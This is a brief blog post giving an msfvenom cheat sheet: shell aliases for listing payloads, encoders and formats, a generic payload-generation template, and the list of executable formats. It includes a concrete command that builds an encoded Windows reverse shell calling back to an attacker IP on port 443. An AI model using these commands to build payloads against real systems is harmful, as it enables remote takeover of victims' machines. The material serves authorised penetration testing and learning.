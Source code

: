 ```yaml
---
layout: post
title: "The msfvenom cheat sheet"
date: 2016-10-22
---
```

Here are simple msfvenom commands to help in quick payload generation.  

I love the msfvenom aliases that g0tmi1k setup in his [os-scripts](https://github.com/g0tmi1k/os-scripts). These will help in finding the correct payloads, encoders, and formats.  

Place these aliases in ~/.bash_aliases:  

> **`alias msfvenom-list-all='cat ~/.msf4/msfvenom/all'`**  
> **`alias msfvenom-list-nops='cat ~/.msf4/msfvenom/nops'`**  
> **`alias msfvenom-list-payloads='cat ~/.msf4/msfvenom/payloads'`**  
> **`alias msfvenom-list-encoders='cat ~/.msf4/msfvenom/encoders'`**  
> **`alias msfvenom-list-formats='cat ~/.msf4/msfvenom/formats'`**  

Finish the setup by running the following:

> **`mkdir -p ~/.msf4/msfvenom/`**  
> **`msfvenom --list > ~/.msf4/msfvenom/all`**  
> **`msfvenom --list nops > ~/.msf4/msfvenom/nops`**  
> **`msfvenom --list payloads > ~/.msf4/msfvenom/payloads`**  
> **`msfvenom --list encoders > ~/.msf4/msfvenom/encoders`**  
> **`msfvenom --help-formats > ~/.msf4/msfvenom/formats`**  

A basic msfvenom command.

> **`msfvenom -p <payload> LHOST=<Your IP> LPORT=<Your Port> -f <format> -e <encoder> -b <bad characters>`**  

A reverse shell example for windows that connects to attacker IP 10.10.10.10 on port 443. This is formatted in c and encode in x86/shikata_ga_nai with bad characters \x00 and \x04.

> **`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x04"`**  

Dont forget that we can build **exe**, **war**, **vbs**, and **asp** executables. Current formats supported by msfvenom are as follows:  

> **`Executable formats`**

>> **`asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war`**  

> **`Transform formats`**

>> **`bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript`**  
